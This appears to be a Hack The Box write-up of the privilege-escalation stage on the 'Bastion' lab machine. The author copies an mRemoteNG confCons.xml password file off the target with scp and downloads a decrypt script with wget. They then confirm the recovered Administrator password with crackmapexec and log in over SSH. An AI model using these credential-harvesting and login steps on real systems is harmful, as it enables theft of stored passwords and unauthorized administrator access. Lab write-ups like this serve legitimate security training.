

# 15 - PrivEsc


# mRemoteNG is a unique program in htb environment


# mRemoteNG stores passwords


Please ignore the first two links because they came out after this box was released.


# Password file location


Download the mRemoteNG decrypt script [here](https://github.com/haseebT/mRemoteNG-Decrypt) and confCons file.
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/bastion]
└──╼ $ scp L4mpje@10.10.10.134:/Users/L4mpje/AppData/Roaming/mRemoteNG/confCons.xml .
L4mpje@10.10.10.134\'s password
confCons.xml

┌─[user@parrot]─[10.10.14.18]─[~/htb/bastion]
└──╼ $ wget https://raw.githubusercontent.com/haseebT/mRemoteNG-Decrypt/master/mremoteng_decrypt.py
 --2021-08-06 11:25:45--  https://raw.githubusercontent.com/haseebT/mRemoteNG-Decrypt/master/mremoteng_decrypt.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1535 (1.5K) [text/plain]
Saving to: ‘mremoteng_decrypt.py’
mremoteng_decrypt.py                            100%[=====================================================================================================>]   1.50K
--.-KB/s    in 0s
2021-08-06 11:25:47 (31.7 MB/s) - ‘mremoteng_decrypt.py’ saved [1535/1535]
```


# Grab the administrator's password and decrypt it



# Credential check
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/bastion/ntfs2]
└──╼ $ cme smb 10.10.10.134 -u Administrator -p 'thXLHM96BeKL0ER2'
SMB         10.10.10.134    445    BASTION          [*] Windows Server 2016 Standard 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [+] Bastion\Administrator:thXLHM96BeKL0ER2 (Pwn3d!)
```

Credentials are valid.

# SSH
```powershell
┌─[user@parrot]─[10.10.14.18]─[~/htb/bastion/ntfs2]
└──╼ $ ssh -l Administrator 10.10.10.134
Administrator@10.10.10.134's password:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
administrator@BASTION C:\Users\Administrator>powershell
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
PS C:\Users\Administrator>
```